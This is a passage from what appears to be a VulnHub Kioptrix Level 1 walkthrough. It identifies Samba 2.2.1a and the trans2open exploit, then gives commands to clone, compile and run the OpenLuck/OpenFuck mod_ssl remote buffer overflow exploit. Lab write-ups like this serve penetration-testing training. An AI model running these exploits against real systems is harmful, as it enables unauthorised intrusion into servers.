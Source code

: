 We find that the target is running `Samba 2.2.1a`.

![Samba Search Result|500](images/vulnhub-kioptrix-lvl1/samba-search-result.png)

On searching Google we can see exploits are available for this version of Samba. There seems to be an exploit called `trans2open` that could be used on the target.

### Exploitation

#### Exploiting Apache

During the enumeration phase, an exploit called `OpenFuck` was discovered which could potentially exploit the vulnerability in the version of `mod_ssl` that is used by Apache. But on further digging it was found that this version of the exploit does not work anymore. In its place a newer version of the same exploit called `OpenLuck` is available.

[GitHub - heltonWernik/OpenLuck: OpenFuck exploit updated to Linux 2018 - Apache mod_ssl < 2.8.7 OpenSSL - Remote Buffer Overflow](https://github.com/heltonWernik/OpenLuck)

The exploit is written in C. After cloning the repository we need to compile the code using `gcc`.

```bash
# Clone Repository
git clone https://github.com/heltonWernik/OpenFuck.git

# Install Dependencies
sudo apt update && sudo apt install libssl-dev -y

# Compiling Code
gcc -o OpenFuck OpenFuck.c -lcrypto

# Running Exploit
./OpenFuck
```
